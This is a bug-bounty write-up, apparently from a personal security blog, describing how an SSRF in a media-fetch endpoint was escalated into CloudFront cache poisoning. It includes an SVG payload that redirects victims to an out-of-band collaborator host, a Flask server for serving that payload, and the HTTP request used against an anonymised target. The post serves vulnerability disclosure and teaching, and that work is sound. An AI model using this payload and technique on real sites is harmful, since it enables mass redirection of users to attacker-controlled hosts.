 ```yaml
---
date: 2025-05-04 10:15:00
---
```


# SSRF-induced Cache Poisoning Logic Bug

Hi, today I will share about the `Cache Poisoning (Variant)` vulnerability that I accidentally encountered on `BugCrowd`. Alright, let's get started!

![alt text](/posts/image-post/cache-poisoning-via-fetching-data/1.jpg)

---

## 1. Analyzing the Cache Poisoning Vulnerability via Server-Side Request Forgery?

Alright, why do I say that? Perhaps you might be curious: this vulnerability originated from discovering a `Proxy Controller Endpoint`, so I was able to POC `SSRF`, but it was only rated `P5 Informational` because the `Program` defines that `SSRF` that only interacts with external services or with the `Server Attacker` is considered `Low-Impact`. Therefore, they suggested that I should find a way to increase its `Impact` so they could reevaluate it!

![alt text](/posts/image-post/cache-poisoning-via-fetching-data/2.png)

---

## 2. How Was Cache Poisoning Discovered?

During the POC of `SSRF`, a collaborator discovered that it forced the use of the following `Response Header`: `image/svg+xml`. Previously, when sending the `Request` for it to `Fetch` to the Web Attacker, I set it to `text/html`, so it always returned a 400. Therefore, he tried various `Response Header` values, and after success, when using `image/svg+xml`, it returned status 200.

- Here, using `text/html` returns status 400

![alt text](/posts/image-post/cache-poisoning-via-fetching-data/4.jpg)

- And here, using `image/svg+xml`

![alt text](/posts/image-post/cache-poisoning-via-fetching-data/3.jpg)

Pay attention to the `Content-Type` in the second line of the `Response Header`—it accepts `image/svg+xml`. If you look closely, you can see in the fourth image, at the end of the `Response Header`, that it has saved the `Cache` to `CloudFront` with the `Response Header` `X-Cache: Hit from cloudfront` and the most important part is still `Age: 5`. This means it really was saved to the cache. And another important point is that this is truly a `variant` I encountered for the first time, because normally `Cache Poisoning` will not save to the cache through a `Fetch` to the `Server Attacker`.

Note: I used https://requestrepo.com/#/requests to modify the `Response Header`

![alt text](/posts/image-post/cache-poisoning-via-fetching-data/5.png)

---

## 3. How Can I Properly Prove to the Vendor that This Is Genuine Cache Poisoning

Of course, I have to show them how I attack a user via `Cache Poisoning`!

I have the following `Payload`:

`Poc.xml`
```xml
- Payload xml
<?xml version="1.0" encoding="UTF-8" standalone="no"?>
<svg xmlns="http://www.w3.org/2000/svg" version="1.1">
  <foreignObject width="100%" height="100%">
    <body xmlns="http://www.w3.org/1999/xhtml">
      <meta http-equiv="refresh" content="0; url=https://wcc9fwntbs9o7upj4haqmnxi0960uqif.oastify.com/" />
    </body>
  </foreignObject>
</svg>
```

This `Payload` is used to perform an `Open Redirect` attack to the `Server Attacker`, which may sound `low-impact`. But what really matters to them is how this `Payload` is saved into the cache and causes mass attacks!

Note: Some of you may have been wondering how I injected the `Payload`, because the `SSRF` vulnerability performed a `Fetch` to the `Server Attacker` and brought the entire `Payload` from my `Poc.xml` file back in the `Response` from the server.

![alt text](/posts/image-post/cache-poisoning-via-fetching-data/6.png)

---

## 4. The Real Cache Poisoning POC!

Maybe that's completely done? Well, yes, it's definitely done, but how do I confirm to them that it's truly serious?

I moved to a `VPS Server` to dig deeper. I wrote a web application using `Python Flask` as follows to escalate the impact from `P4 -> P3`:

---
```python
- Code to add
from flask import Flask, make_response
import os

app = Flask(__name__)

@app.route('/poc.xml')
def serve_svg_as_xml():
    file_path = os.path.join(os.getcwd(), 'poc.xml')
    if os.path.exists(file_path):
        with open(file_path, 'rb') as f:
            response = make_response(f.read())
            response.headers.set('Content-Type', 'image/svg+xml')
            return response
    else:
        return "File poc.xml not found!", 404

if __name__ == '__main__':
    app.run(debug=False, host='0.0.0.0', port=5505)
```
---

```http
- Request in Repeater
GET /media?u=http://Ip-Demo:5505/poc.xml HTTP/2 
Host: VulnWeb.com 
Cookie: _learn_session_adhoc=23bd7501d7eb466a35f70e1bfe50adde; _ga=GA1.1.165183293.1744628537; _ga_L9HT5MZ3HD=GS1.1.1744628536.1.0.1744629162.60.0.0; _ga_Z6QQP1041C=GS1.1.1744628539.1.0.1744629162.60.0.0 
Sec-Ch-Ua: "Chromium";v="135", "Not-A.Brand";v="8" Sec-Ch-Ua-Mobile: ?0 Sec-Ch-Ua-Platform: "Windows" Accept-Language: en-US,en;q=0.9 
Upgrade-Insecure-Requests: 1 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36 
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7 Sec-Fetch-Site: none Sec-Fetch-Mode: navigate Sec-Fetch-User: ?1 
Sec-Fetch-Dest: document 
Accept-Encoding: gzip, deflate, br 
Priority: u=0, i
```

An important point here is when I look at the `Logs` of the `Server Attacker`, I see that I sent the `Request` more than 10 times to the `Server`, but it only appears 2 times in the `Logs`. This means that the `Server` truly has a `Logic Bug` here, not just a typical `Cache Poisoning` vulnerability, because clearly this is a `Fetch` feature that then stores the response in the `CloudFront` cache, but the developer accidentally allowed it to `Fetch` external `Data`, thus causing the `Cache Poisoning` bug!

![alt text](/posts/image-post/cache-poisoning-via-fetching-data/7.jpg)

## 5. Diagram and Detailed Explanation

### + Differentiation from “Standard” Cache Poisoning

- **Standard Cache Poisoning**  
  1. Attacker sends a request with a payload directly from the client.  
  2. Server or CDN embeds the payload in the response.  
  3. CDN caches the response and returns it to subsequent clients.  
  4. Main work: manipulate headers (`Host`, `Vary`, `Cache-Control`…) to control different cache keys.

- **This Logic Bug Variant**  
  1. **Intermediate is SSRF/Fetch**  
     - Payload (SVG/XML) is fetched from the **server attacker**, not from the victim's browser.  
  2. **Main server** accidentally allows the `Fetch` to return the response with the header `Content-Type: image/svg+xml`, so **CloudFront automatically caches**.  
  3. **Repeated logic**: after caching, even if the victim makes multiple requests, the request is no longer forwarded to SSRF; it still returns the old cache—embedding the attacker's payload in the response.

---

### + Why Call It a “Logic Bug” Instead?

1. **Flow design flaw** rather than just misconfiguration of the cache.  
2. **Server attacker** is allowed to fetch any URL and return it directly to the CDN.  
3. The **Fetch → Cache → Serve** flow lacks controls (domain whitelist, response header validation…), allowing SSRF to escalate into cache poisoning.  
4. More severe consequences: not only incorrect caching, but also **mass-targeted attacks** via SVG/redirect payloads, XSS, malicious file downloads.

---

### + Flow diagram

![alt text](https://mermaid.ink/img/pako:eNp9kV9PwjAUxb9Kcw1viIx_gz6YwBCMYmLEoHHzoWyXrbFrsXQGJfvudgUMJsY-9d7fOec2tzuIVYJAoVbbcckNJbtIEhKByTDHCKi9JrhihTAR1E_QgmnOlgI3lcZ5KrRS0sz518Ho9dbbg-sIn5CnmdnjpRLJCTa4NYESSu_pWdOdE4HgEv8VYJLijC1RjFj8lmpVSJtPrXLlTgSVsIxkWdZqkUw1W2dk9lA1h-GCx488fyXn55fkJnzA9wI3Zl-OwkCoIplo-_7XSn0VzlF_oCZDY-wk1HvdbXjHBI-5Kjbkd0BlGrlrcLC6nMC1xuG9VttPMkETZ2TMDHNw7OB1GExIwOIMyU-4w9cOT09GzhfTi-e7maNTR4dQh1TzBKjRBdYhR52zqoQ_Ppnpt2pBpfWsmXxRKj_a7CLTDOiKiY2tinXCDI45s_vLf7oaZYI6sCs3QNt-14UA3cEWaN9r9Pp-p9dp-l3fG3gWflpRq9Xo9Hyv3ep3297A98s6fLmpzUbf75bfvnzLWw)
